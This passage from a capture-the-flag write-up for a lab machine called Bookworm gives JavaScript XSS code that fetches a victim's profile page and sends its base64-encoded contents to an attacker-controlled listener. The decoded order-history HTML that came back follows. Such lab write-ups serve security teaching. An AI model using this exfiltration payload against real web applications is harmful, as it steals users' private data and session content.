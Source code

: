 I took a break from this machine while waiting for it to be hosted on the SG VPN for stability (so that's why the IP addresses are different later). Afterwards, I edited the Javascript code a bit to wait for the page to load before sending me the contents:

```javascript
function stealpage(url) {
    var attacker = "http://10.10.14.13/?url=" + encodeURIComponent(url);
    fetch(url).then(async res => {
        fetch(attacker + "&data=" + btoa(await res.text()))
    });
}
stealpage("http://bookworm.htb/profile")
```

Afterwards, I would get a callback with a huge base64 encoded string at the back:

<figure><img src="../../.gitbook/assets/image (1795).png" alt=""><figcaption></figcaption></figure>

Here's the interseting part of the page decoded:

```markup
<hr>
<h3>Order History</h3>
<table class="table">
  <thead>
    <tr>
      <th scope="col">#</th>
      <th scope="col">Ordered At</th>
      <th scope="col">Total Price</th>
      <th scope="col"></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <th scope="row">Order #16</th>
      <td>Wed Jan 18 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£33</td>
      <td>
        <a href="/order/16">View Order</
      </td>
    </tr>
    <tr>
      <th scope="row">Order #17</th>
      <td>Sat Jan 21 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£39</td>
      <td>
        <a href="/order/17">View Order</
      </td>
    </tr>
    <tr>
      <th scope="row">Order #18</th>
      <td>Fri Jan 27 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£66</td>
      <td>
        <a href="/order/18">View Order</
      </td>
```